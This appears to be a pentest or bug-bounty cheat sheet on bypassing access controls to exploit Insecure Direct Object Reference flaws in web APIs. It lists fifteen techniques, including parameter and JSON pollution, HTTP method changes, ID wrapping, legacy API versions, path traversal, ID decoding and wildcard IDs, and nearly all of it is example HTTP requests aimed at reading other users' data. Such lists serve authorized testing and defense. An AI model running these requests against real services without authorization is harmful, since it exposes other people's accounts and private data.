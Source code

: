 # Insecure Direct Object Reference (IDOR)

### Bypassing method
-----------------
```
GET /api_v1/messages?user_id=YOUR_USER_ID&user_id=ANOTHER_USERS_ID
GET /api_v1/messages?user_id=ANOTHER_USERS_ID&user_id=YOUR_USER_ID
GET /api_v1/messages?user_ids[]=YOUR_USER_ID&user_ids[]=ANOTHER_USERS_ID
```

### Change the request method
```
try instead: GET, POST, PUT, DELETE, PATCH
```

1. Add parameters onto the endpoints for example, if there was
```
GET /api/v1/getuser HTTP/1.1
Host: example.com
...
```
Try this to bypass
```
GET /api/v1/getuser?id=1234 HTTP/1.1
Host: example.com
...
```


2. HTTP Parameter pollution
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

user_id=hacker_id&user_id=victim_id
```


3. Add .json to the endpoint
```
GET /v2/GetData/1234 HTTP/1.1
Host: example.com
...
```
Try this to bypass
```
GET /v2/GetData/1234.json HTTP/1.1
Host: example.com
...
```


4. Test on outdated API Versions
```
POST /v2/GetData HTTP/1.1
Host: example.com
...

id=123
```
Try this to bypass
```
POST /v1/GetData HTTP/1.1
Host: example.com
...

id=123
```


5. Wrap the ID with an array.
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":111}
```
Try this to bypass
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"id":[111]}
```


6. Wrap the ID with a JSON object
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":111}
```
Try this to bypass
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":{"user_id":111}}
```


7. JSON Parameter Pollution
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":"hacker_id","user_id":"victim_id"}
```


8. Try decode the ID, if the ID encoded using md5,base64,etc
```
GET /GetUser/dmljdGltQG1haWwuY29t HTTP/1.1
Host: example.com
...
```
dmljdGltQG1haWwuY29t => victim@mail.com



9. If the website using GraphQL, try to find IDOR using GraphQL
```
GET /graphql HTTP/1.1
Host: example.com
...
```
```
GET /graphql.php?query= HTTP/1.1
Host: example.com
...
```


10.  MFLAC (Missing Function Level Access Control)
```
GET /admin/profile HTTP/1.1
Host: example.com
...
```
Try this to bypass
```
GET /ADMIN/profile HTTP/1.1
Host: example.com
...
```


11. Try to swap uuid with number
```
GET /file?id=90ri2-xozifke-29ikedaw0d HTTP/1.1
Host: example.com
...
```
Try this to bypass
```
GET /file?id=302
Host: example.com
...
```


12. Change HTTP Method
```
GET /api/v1/users/profile/111 HTTP/1.1
Host: example.com
...
```
Try this to bypass
```
POST /api/v1/users/profile/111 HTTP/1.1
Host: example.com
...
```


13. Path traversal
```
GET /api/v1/users/profile/victim_id HTTP/1.1
Host: example.com
...
```
Try this to bypass
```
GET /api/v1/users/profile/my_id/../victim_id HTTP/1.1
Host: example.com
...
```


14. Change request `Content-Type`
```
GET /api/v1/users/1 HTTP/1.1
Host: example.com
Content-type: application/xml
```
Try this to bypass
```
GET /api/v1/users/2 HTTP/1.1
Host: example.com
Content-type: application/json
```


15. Send wildcard instead of ID
```
GET /api/users/111 HTTP/1.1
Host: example.com
```
Try this to bypass
```
GET /api/users/* HTTP/1.1
Host: example.com
```
```
GET /api/users/% HTTP/1.1
Host: example.com
```
```
GET /api/users/_ HTTP/1.1
Host: example.com
```
```
GET /api/users/. HTTP/1.1
Host: example.com
```
